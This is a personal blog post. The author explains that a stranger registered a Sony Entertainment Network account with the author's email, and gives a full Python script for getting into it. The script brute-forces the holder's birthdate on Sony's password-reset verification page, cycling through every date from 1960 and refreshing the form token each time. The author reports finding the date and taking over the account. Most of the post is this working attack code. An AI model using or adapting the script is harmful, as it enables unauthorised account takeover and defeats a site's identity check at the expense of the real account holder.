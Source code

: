 ```yaml
---
uid: 770
title: Sony Entertainment Network spam stopper
date: 2015-09-13T00:53:20+00:00
author: fvicente
layout: post
guid: ?p=770
categories:
  - Programming FAQ
  - Software Development
tags:
  - network
  - playstation
  - python
  - sony
  - spam
comments: true
excerpt: How to avoid Sony Entertainment Network e-mail notifications for an account that someone created using your address
---
```

I don&#8217;t have a Sony PlayStation. But someone nicknamed &#8220;STRONDHA&#8221; has one, and somehow he managed to use my personal e-mail address to create his account. Oddly, Sony didn&#8217;t send any e-mail asking to confirm my e-mail as the owner of the account, and starting spamming every time this person bought a game in their virtual store.

<!--more-->

[<img src="{{ site.baseurl }}/images/sony_spam.png" alt="Sony sending unwanted e-mails"/>]({{ site.baseurl }}/images/sony_spam.png)

## Stop it

My name is too common, and is not the first time I get subscribed to some site I didn&#8217;t ask to. Sometimes, I just click on the &#8220;unsubscribe&#8221; link, or even on &#8220;forgot my password&#8221; and do whatever I need to stop receiving undesired e-mails.

So, I tried the &#8220;forget my password&#8221; trick with Sony, and after some captcha validation, I received an e-mail with a link. The problem is that they required the birthday in order to reset the password, and of course, I don&#8217;t know the birthday of the person that created the account.

Enters python script to try every possible birthday date from 1/1/1960 until today.

### Notes

* You will need to change the base URL to whatever you received in the password reset e-mail from Sony

* You might need to change the &#8216;wrong date&#8217; message to match your local language &#8211; mine is in portuguese (just try any date on the browser, and -unless you&#8217;re so lucky to select the actual birth date- copy and paste the error message on the code)

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import urllib
import urllib2
import datetime
import sys
import time

from HTMLParser import HTMLParser

# create a subclass and override the handler methods
class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        attrs_dict = dict(attrs)
        if tag == "input" and attrs_dict.get('name', '') == "blah_token":
            setattr(self, "value", attrs_dict.get("value"))

    def handle_endtag(self, tag):
        pass

    def handle_data(self, data):
        pass


values = {
    'struts.token.name' : 'blah_token',
    'blah_token': '',
    'verifyType': 'dob',
    'account.dob': '1',
    'account.mob': '1',
    'account.yob': '1980',
}

#
# IMPORTANT: paste the URL received in the change password e-mail in the url variable, the url looks something like this:
# https://account.sonyentertainmentnetwork.com/reg/account/validate-forgot-password-token!input.action?token=***some token here***&request_locale=pt_BR&service-entity=np
#
url = '*** PASTE URL HERE ***'
url_post = "https://account.sonyentertainmentnetwork.com/liquid/reg/account/forgot-password-verify-identity.action"

s = requests.session()
r = s.get(url)
date = datetime.datetime(1960, 1, 1, 1, 1, 1)
today = datetime.datetime.today()
while date < today: 
    date += datetime.timedelta(days=1)
    # find token
    parser = MyHTMLParser()
    parser.feed(r.text)
    if not hasattr(parser, "value"):
        print "!!!!! FOUND %s" % date.isoformat()
        break
    val = getattr(parser, "value")
    print "blah_token = %r" % val
    values['blah_token'] = val
    values['account.dob'] = str(date.day)
    values['account.mob'] = str(date.month)
    values['account.yob'] = str(date.year)
    r = s.post(url_post, values)
    #
    # IMPORTANT: The message is in portuguese, you will need to change this message to match your language
    #
    if u'A data de nascimento inserida é inválida. Verifique a data e tente novamente.' in r.text:
        print "birthday is not %s" % date.isoformat()
    else:
        print "!!!!! FOUND %s" % date.isoformat()
        break
    sys.stdout.flush()
{% endhighlight %}

[See sony.py on gist](https://gist.github.com/fvicente/75980d0d00d759b06e50)

STHRONDHA was born on January 23 of 1983 (or at least that&#8217;s the date he choose when creating his account). So, now I was able to change the password and stop receiving e-mails from Sony. I guess he will need to create a new account now muahahaha.
